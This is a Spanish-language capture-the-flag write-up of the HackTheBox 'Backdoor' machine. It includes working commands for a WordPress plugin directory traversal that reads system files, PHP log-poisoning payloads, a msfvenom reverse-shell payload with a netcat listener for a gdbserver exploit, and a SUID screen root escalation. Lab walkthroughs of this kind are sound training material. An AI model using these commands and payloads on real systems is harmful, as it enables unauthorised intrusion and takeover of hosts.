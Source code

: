 ```yaml
---
title: "HackTheBox: Backdoor"
date: 2022-10-25T18:14:31-04:00
categories:
  - HackTheBox
tags:
  - Wordpress
  - Directory Traversal
  - SUID
---
```


Maquina de dificultad fácil que conlleva directory traversal por medio un plugin en wordpress, lo que permite leer archivos del sistema y nos permitira ver el servicio que corre en el puerto 1337, a través de una vulnerabilidad que tiene, obtener una shell, para luego por medio del comando screen que tiene permisos SUID obtener una session como root.

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/Backdoor.png)

## Scanning

Primero se realizara el escaneo para ver que puertos estan abiertos
> - `-sS`: SYN port scan
> - `--open`: Reportar solo los puertos abiertos
> - `-p-`: Escanear los 65535 puertos
> - `-v`: Modo verbose
> - `-n`: No hacer resolucion DNS
> - `-Pn`: No hacer host discovery
> - `-oG open_ports`: Guardar la captura formato grepeable para uso con `grep`

```bash
nmap -sS --open -p- -n -Pn -v 10.10.11.125 -oG open_ports

host: 10.10.11.125() Ports: 22/open/tcp//ssh///, 80/open/tcp//http///, 1337/open/tcp//waste///
```

Con esta captura y usando el comando `grep` se puede filtrar por los puertos abiertos que nos informa nmap
```bash
grep -oP '\d{1,5}/open' open_ports | grep -oE "[0-9]+" | xargs | tr ' ' ','
22,80,1337
```

Ahora se puede realizar otro escaneo para detectar las versiones `-sV`, y probar los scripts de numeración mas comunes `-sC` de los puertos que se encontraron abiertos `-p{ports}`
```
nmap -sC -sV -p22,80,1337 10.10.11.125 -oN target
```

| Puerto | Servicio | Versión                         |
| ------ | -------- | ------------------------------- |
| 22     | ssh      | OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 |
| 80     | http     | Apache httpd 2.4.41             |
| 1337   | waste?   | ---                        | 


Al inspeccionar la pagina web los links redireccionan a `http://backdoor.htb/...` por lo que se puede suponer que esta realizando virtual hosting, por este motivo se puede agregar la siguiente linea al `/etc/hosts`
```bash
$ vim /etc/hosts
...
10.10.11.125    backdoor.htb
```

## Enumeración y acceso

Al revisar que tecnologias esta usando este sitio, por medio del **wappalyzer**, se puede notar que usa Wordpress
![alt]({{ site.url }}{{ site.baseurl }}/assets/images/backdoor_wappalyzer.png)

En este punto, se puede intentar acceder a las rutas `/wp-login.php` o `/wp-admin`, pero ya que no contamos con credenciales, no tendria caso, pero ya que Wordpress usa plugins podemos ir a `/wp-content/plugins` y ver si se encuentra algun plugin con vulnerabilidades

En este caso se indexan los directorios, pero en caso de que no llege a suceder esto, se puede hacer un fuzzing para descubrir plugins existentes
{: .notice}
![alt]({{ site.url }}{{ site.baseurl }}/assets/images/backdoor_wp_plugins.png)

Como se puede observar, se tiene un plugin llamado `ebook-download` entonces investigando, tiene una vulnerabilidad de [Directory Traversal][ebook-plugin]

Por lo que al ir a `/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl={file_system_name}` se estaria realizando un director traversal con el que podriamos para leer archivos del sistema
```bash
curl -s 'http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/etc/passwd'
root:x:0:0root:/root:/bin/bash
<snip>
```

> Con esta vulnerabilidad se podria consegir ejecución de comandos en la maquina sí:
> - La maquina tuviera una una llave privada `id_rsa` del usario `user` y al autenticarnos con esta llave no seria necesario proporcionar credenciales del usuario
> - O si tuvieramos acceso a los logs de apache en `/var/log/apache2/access.log`, `/var/log/httpd/access.log` o los logs de ssh en `/var/log/auth.log`
> 	- En apache podriamos enviar un payload en los headers para que con php nos ejecute algún commando del sistema `-H 'User-Agent: <?php echo system("whoami"); ?>'`
> 	- O en ssh podriamos intentar entrar por ssh con un usuario y que nos interprete esto como una sentencia php para que tambien podamos ejecutar comamdos: `ssh '<?php echo system("whoami"); ?>'@10.10.11.125`

Pero, ya que no hay la posibilidad de hacer de hacer un log poisoning o autenticarnos con la llave privada del usuario, se puede buscar información importante en la maquina, por ejemplo en el directorio `/proc/` como en el `/proc/self/environ` para ver las variables de entorno, etc.

En este punto podemos intentar ver que comando esta ejecutando cada proceso desde `/proc/{PID}/cmdline`
```bash
curl -s "http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/1/cmdline" --output 1
```
**Nota:** Ya que estos son archivos son binarios, entonces hay que usar la opción `--output` para guardar los datos binarios directamente a un archivo
{: .notice}

Lo que se puede hacer, es un for loop para ir iterando cada proceso
```bash
for i in {1..1000}; do curl -s "http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/$i/cmdline" --output $i; done
```

Una vez haya terminado, se puede investigar que tipo de archivo es mediante el comando `file`, ya que si es un archivo `html` no nos serviria, pero si es un archivo `data` significaria que tiene información binaria de la maquina.
```bash
file * | grep -v HTML | cut -d: -f1 | while read pid; do cat $pid; echo; done | sed 's/.*cmdline//' | sed 's/<script.*//'
```
> - `file * | grep -v HTML`: para ver que tipo de archivo es y quitar todos los que son formato HTML
> 	- output example: `971: data`
> - `cut -d: -f1`: para dividir el output usando como delimitador `:` y tomar el primer argumento
> 	- output example: `971`
> - `while read pid; do cat $pid; echo; done`: usuando la salida anterior que son los ficheros que contienen data le hacemos un `cat` para leer cada uno de estos y hacer un salto de linea
> 	- output example: `/proc/971/cmdline/proc/971/cmdline/proc/971/cmdline/usr/sbin/mysql<script>window.close()</script>`
> - `sed 's/.*cmdline//' | sed 's/<script.*//'`: y al final con el output de los archivos quitarle lo que no forma parte del comando que se esta ejecutando
> 	- output example: `/usr/sbin/mysql`

En una parte de todo esto se puede observar que hay un servicio ejecutandose en el puerto 1337:
![alt]({{ site.url }}{{ site.baseurl }}/assets/images/backdoor_processes.png)

Y en el escaneo de nmap vimos que tenemos el puerto 1337 abierto, por lo que investigando, se encontro un exploit que da la posibilidad de ejecutar un [RCE][backdoor-rce]

Ejecutando este exploit pide lo siguiente:
1. Generar una shellcode con msfvenom
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.9 LPORT=4433 PrependFork=true -o rev.bin`
2. Ponernos en escucha en nuestra maquina de atacante
`nc -nlvp 4433`
3. Y correr el exploit
`python3 gdbserver_exploit.py 10.10.11.125:1337 rev.bin`

Nos corremos el exploit y nos regresa una shell, aunque no es una shell interactiva podemos hacerle un upgrade para que sea totalmente interactiva:
![alt]({{ site.url }}{{ site.baseurl }}/assets/images/backdoor_interactive_tty.png)

## Escalación de privilegios

Buscando por archivos SUID se puede ver que hay un binario SUID no muy comun: `screen`
```bash
find / -perm -4000 2> /dev/null
<snip>
...
/usr/bin/screen
...
<snip>
```

Y recordando que hay un proceso de `screen` ejecutandose, que de igual manera se puede verificar mediante el comando `ps -ef | grep screen` para ver que es lo que hace
![alt]({{ site.url }}{{ site.baseurl }}/assets/images/backdoor_ps_screen.png)

En este output se puede ver que el usuario root tiene una sesión corriendo, y ya que tenemos el permiso SUID del comando `screen` lo que se puede intentar hacer es, conectarnos a esta sesión y obtener una session como el usuario root.
```bash
screen -r root/
```
![alt]({{ site.url }}{{ site.baseurl }}/assets/images/backdoor_root.png)

Y nos manda la session como el usuario root, por lo que ya podriamos leer la flag de root y seria todo!

[backdoor-rce]:https://www.exploit-db.com/exploits/50539
[ebook-plugin]:https://www.exploit-db.com/exploits/39575
